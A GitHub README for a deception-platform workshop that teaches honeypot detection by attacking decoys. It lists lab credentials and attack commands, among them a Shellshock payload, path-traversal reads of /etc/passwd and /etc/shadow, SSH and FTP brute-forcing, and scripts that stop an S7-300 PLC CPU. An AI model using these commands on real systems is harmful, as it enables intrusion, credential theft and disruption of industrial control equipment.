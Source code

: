 # Welcome to the Labyrinth Deception Platform workshop
All you may need for the workshop is available in this repository.
## Getting access
Our lab setup looks this way:

Please navigate to our demo stand:
1. **Credentials to the AdminVM**

You may use any web browser of your choice.
```
URL: https://demo.labyrinth.tech/
Username: student
Password: 7a5z?lb6/B{m
```
> [!NOTE]
> Feel free to create your own users here by going to the Settings->Users.

2. **Credentials to the attacking host**

From this host you will perform your attacks. Please use SSH and following credentials:
```
Host: warrior.labyrinth.tech
Username: student
Password: xJgZ9jOQ14IZ
```

## Terminology that will be used today
Due to the fact that today we are using Labyrinth Deception Platform as the example of the deception platfroms, it has its own terminology that will be actively used today:
1. **Point** = network decoy, lure, deceptive network services.
> [!NOTE]
> Points ARE NOT separate virtual machines.
2. **Honeynet** = network segment in which Points operate. Used to specify in which VLAN you would like to run your Points.
3. **Seeder Tasks** = file decoys, breadcrumbs used to logically link real and deceptive infrastructure.
4. **Seeder Agent** = binary that spreads Seeder Tasks on real hosts.
5. **Admin VM (Management Console)**  = main module that controls the system.
6. **Worker VM** = node on which Points are running.

## Commands transcript
In addition, we provide the transcript of all commands for your ease of use. Even if you missed any part of the presentation, feel free to use those notes to continue exploring.

> [!IMPORTANT]
> **\<any data>** indicates that you should paste in your own data that is entioned inside the triangular brackets.
>
> **[options]** indicates that this part (or parts) of the command is optional and can be omitted. Multiple options are listed using / (slash).

#### Case 1: network scan detection
Several tools can be used. For example, [nmap](https://nmap.org/):
```
nmap [-sS/sT/sW/sM/sU/sF/sX] ​<Point IP>
```

#### Case 2: deception using breadcrumbs
1. Navigate to the Seeder Agents -> Tasks
2. Choose ssh_txt_credentials or ssh_config from the list
3. Click on three dots, and then Details
4. Use those credentials to login:
```
ssh <user>@<Point IP>
```

#### Case 3: web deception using UWP
UWP stands for Universal Web Point. It is a decoy type, developed by the Labyrinth Security Solutions team, that allows to emulate anything that has a web interface just in seconds.

In this case we will be trying to exploit [Shellshock](https://blog.cloudflare.com/inside-shellshock).
```
curl -k -H "User-Agent: () { :; }; /bin/bash cat /etc/passwd" http://<UWP IP>/
```
#### Case 4: interaction with MQTT broker
Subscribe to all topics:
```
mosquitto_pub -h <MQTT broker IP> -t "#" [-u <username> -P <password>]
```
Publish a topic:
```
mosquitto_pub -h <Point IP> -t <topic name> [-u <username> -P <password>] -m 'My Message'
```

#### Case 5: S7comm malformed PDU
For this case there is a [script](https://github.com/ad-labyrinth/ATS2023/blob/main/scripts/S7_Malformed_PDU.py) that is also available on your VM:
```
cd scripts
```
Simply run it: 
```
python3 S7_malformed_PDU.py -a <Point IP>
```
Or:
```
python3 S7_malformed_PDU.py --plc_ip_addr <Point IP>
```
More about S7comm packet structure: [The Siemens S7 Communication - Part 1 General Structure](http://gmiru.com/article/s7comm/) and [The Siemens S7 Communication - Part 2 Job Requests and Ack Data](http://gmiru.com/article/s7comm-part2/)

#### [Advanced] Case 6: gathering info from web server

1. Find web server
```
sudo nmap -sS -sC -p80,443 <Honeynet subnet> -vvv 
```
Also search for an SSH host: 
```
sudo nmap -sS -sC -p22 <Honeynet subnet> -vvv 
```
2. Perform LFI
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/passwd 
```
or
```
curl --insecure https://<Point IP>/\?filename\=../../../etc/shadow 
```

Bonus step: search for additional web path:
```
dirsearch --wordlists=/home/student/wordlists/directories.txt -u https://<Point IP>/ 
```

Reference: [dirsearch](https://github.com/maurosoria/dirsearch)

3. Setup the wordlist
```
cd wordlists
nano brute.dict
```
4. Perfrom SSH bruteforce
```
hydra -L brute.dict -P passwords.dict <IP of the ssh host> ssh -t 4 
```
5. Login to the host
```
ssh <user>@<Point IP>
```
Bonus step: reuse credentials to connect to another host
```
ssh <user>@warrior.labyrinth.tech
```

#### [Advanced] Case 7: attacking industrial networks
1. Search network for FTP server
```
sudo nmap -sS -sC -p21 -T4 <Honeynet subnet> -vvv 
```
2. Connect to the FTP

Try to connect anonymously:
```
ftp <FTP IP address>
```
Start FTP bruteforce:
```
cd wordlists
nmap --script ftp-brute -p21 <FTP IP address> --script-args userdb=users.dict,passdb=passwords.dict
```
3. Inspect found file
```
ls -la
file <file>
less <file>
```
4. Perform S7comm CPU control request
```
cd S7_scripts
python2 s7300stop.py <S7-300 IP address>
```
In addition, you can try to start CPU start message:
```
python2 s7300cpustart.py <S7-300 IP address>
```
Reference: [exploits source](https://github.com/hackerhouse-opensource/exploits)

## About Labyrinth Deception Platform
Labyrinth is a team of experienced cybersecurity engineers and penetration testers, which specializes in the development of solutions for early cyber threat detection and prevention.

Deception techniques provide adversaries with an essential advantage over defenders, who cannot predict attackers’ next move. **OUR VISION** is to shift the balance of power in favor of defenders.

**OUR MISSION** is to provide all kinds of organizations with a simple and efficient tool for the earliest possible detection of attackers inside the corporate network.

More information about the platform: https://labyrinth.tech/ 
